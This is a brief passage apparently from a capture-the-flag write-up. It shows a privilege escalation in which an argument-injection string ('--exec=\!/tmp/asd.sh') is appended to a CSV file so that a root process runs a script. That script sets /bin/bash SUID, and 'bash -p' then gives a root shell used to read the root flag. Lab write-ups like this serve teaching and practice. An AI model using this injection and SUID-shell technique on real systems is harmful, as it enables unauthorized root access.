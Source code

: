 And after playing a little bit, we could execute that script as root, set bash to SUID, and we're root
```bash
$ cd -
/var/www/private
echo 'asdf --exec=\!/tmp/asd.sh' >> leave_requests.csv
$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  7  2022 /bin/bash
$ bash -p
wc -c /root/root.txt
33 root.txt
```

